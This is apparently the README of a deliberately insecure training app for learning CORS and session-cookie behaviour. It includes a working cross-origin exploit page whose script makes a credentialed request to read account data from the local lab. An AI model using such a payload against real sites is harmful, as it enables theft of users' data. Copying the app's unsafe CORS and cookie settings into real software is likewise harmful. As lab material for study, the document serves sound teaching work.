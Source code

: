 ## CORS Playground
### Description

CORS playground provides a simple web application that you can utilise to enhance your comprehension of Cross Origin Resource Sharing. By default, it comes with CORS configured in a very unsafe way and could be easily exploited from different origins.

Observing how both CORS and the session's cookie behave under different configurations will greatly increase your knowledge of these two 
critical components of web application security, their common misconfigurations; exploitation and how to secure them properly.

### Default settings
CORS playground runs over https and listens on port number 5555

### URLs/endpoints
```http
POST /login.html
GET /main_page.html
GET /logout
GET /api/v2/accounts
GET /api/v1/accounts
```

### Example
The following is an example of running CORS playground and exploiting CORS misconfigurations from your local machine.

1. Add the following entries to the file /etc/hosts. You could use all these domains to test different values of the domain and SameSite cookie attribute.
```bash
## Domain for the CORS playground application itself.
127.0.0.1 playground.cors.test
## Same level domain as playground.cors.test.
127.0.0.1 project.cors.test
## Subdomain of playground.cors.test
127.0.0.1 pts.playground.cors.test
## parent domain .com.au
127.0.0.1 pts.playground.cors.test.com.au
## parent domain of playground.cors.test
127.0.0.1 cors.test                
## A totally different domain
127.0.0.1 another.domain.com
```
2. Run CORS playground with the command `nodejs app.js` (if running it for the first time, execute the command `npm install` to install the dependencies) then open up a browser to load `https://playground.cors.test:5555/` and log in.
3. Run an Apache web server over TLS.
4. Paste the following HTML code into a file named cors_attack.html (this file is also included in this repository) and save it on your apache webroot which by default is: `/var/www/html/`

```html
<!DOCTYPE html>
<html>
<head><meta charset="UTF-8"></head>
<body>
<script>
 var xhr = new XMLHttpRequest();
 xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
   console.log(xhr.response);
  }
 }
 url = 'https://playground.cors.test:5555/api/accounts';
 xhr.open('GET',url,true);
 xhr.setRequestHeader('CORS-playground','Penetration Testing Team');
 xhr.withCredentials = true;
 xhr.send();
</script>
</body>
</html>
```
5. Load the following url `https://another.domain.com/cors_attack.html` on a browser, the account information will be displayed on the browser console.
6. Use a http proxy such as Burp or the developer tools of the browser to observe the CORS requests/responses.
### Jump in

1. Add/delete/modify the attributes of the cookie generated within this application. Look for the line:
```node
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'None'});
```
 Some settings you could try:
```node
res.cookie('session',randomvalue.toString(), {domain: '.playground.cors.test', httpOnly: true, secure: true, sameSite: 'Lax'});
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'Strict'});
```
2. In the corsHandler function within the code of this application, uncomment the the section you'd like to play with and comment the remaining ones.
### References:
1. [CORS tutuorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
2. [Same Origin Policy tutorial](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
3. [Cookies tutorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
4. [portswigger CORS labs](https://portswigger.net/web-security/cors)
